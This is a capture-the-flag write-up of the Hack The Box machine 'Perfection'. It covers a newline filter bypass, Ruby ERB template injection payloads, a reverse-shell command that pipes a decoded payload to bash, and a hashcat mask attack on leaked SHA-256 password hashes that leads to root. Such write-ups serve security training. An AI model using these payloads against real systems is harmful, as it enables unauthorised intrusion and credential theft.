



# Perfection


Perfection is an easy Linux Hack The Box machine that starts with server-side template injection in a weighted grade calculator and ends with a cracked password that leads directly to root.

## Reconnaissance

An initial Nmap scan revealed SSH on port 22 and a web server on port 80.

```text
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Since SSH was not obviously exposed to a weak attack path, I focused on the web application.

## Web Enumeration

The website presented a **Weighted Grade Calculator** with three navigation options: Home, About Us, and Calculate your weighted grade.



The calculator form required every field to be filled in, with category set to either a value or `N/A`, and the numeric fields needing valid numbers. It also enforced that the weights added up to 100.

A test payload such as `system('id')` in the category field was rejected with a “Malicious input blocked” error, which indicated filtering. The footer showed that the site was powered by **WEBrick 1.7.0**, suggesting a Ruby application.

## Template Injection

A newline injection bypassed the filtering:

```text
x%0Asystem('id')
```

That removed the malicious input error, which suggested the input was being inserted into a template. Since Ruby ERB was likely in use, I tested with an SSTI payload:

```text
test%0A<%25%3d+7*7+%25>
```



That worked, confirming **server-side template injection**.

I then moved to command execution by triggering a ping back to my host:

```text
test%0A<%25%3d+system('ping+-c+1+10.10.10.10')+%25>
```

The ICMP callback confirmed RCE.

## Foothold

With command execution in place, I used a base64-encoded reverse shell wrapped inside the template payload.

```text
test%0A<%25%3d+system('echo+PAYLOAD|base64+-d|bash')+%25>
```



That gave me a shell as `susan`, and I was able to read the user flag from `/home/susan`.

## Privilege Escalation

Although I had user access, I still needed `susan`’s password to use sudo. Running enumeration tools revealed two useful findings:

- A mail file at `/var/mail/susan`.
- A database file at `/home/susan/Migration/pupilpath_credentials.db`.

The SQLite database contained several user records with 64-character password hashes, which pointed to SHA-256.

```text
users
1|Susan Miller|abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
2|Tina Smith|dd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57
3|Harry Tyler|d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393
4|David Lawrence|ff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87a
5|Stephen Locke|154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8
```

The mail file contained the password format:

```text
{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}
```

For Susan, that meant the password likely followed the pattern:

```text
susan_nasus_XXXXXXXXX
```

I used `hashcat` with a custom mask to brute-force the final numeric part.

```bash
hashcat -m 1400 -a 3 'abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f' 'susan_nasus_?d?d?d?d?d?d?d?d?d'
```

After some time, the password was recovered:

```text
susan_nasus_413759210
```

The password worked for `susan`, and because `susan` had unrestricted sudo access, I could escalate straight to root.

```text
User susan may run the following commands on perfection:
    (ALL : ALL) ALL
```

## Attack Path

- Enumerate SSH and the Ruby web application.
- Detect filtering in the calculator form.
- Bypass filtering with a newline injection.
- Confirm SSTI with an ERB payload.
- Use SSTI to gain a shell as `susan`.
- Inspect mail and the SQLite credential database.
- Recover the password format from email content.
- Crack the SHA-256 hash with `hashcat` and a custom mask.
- Use `sudo` to become root.
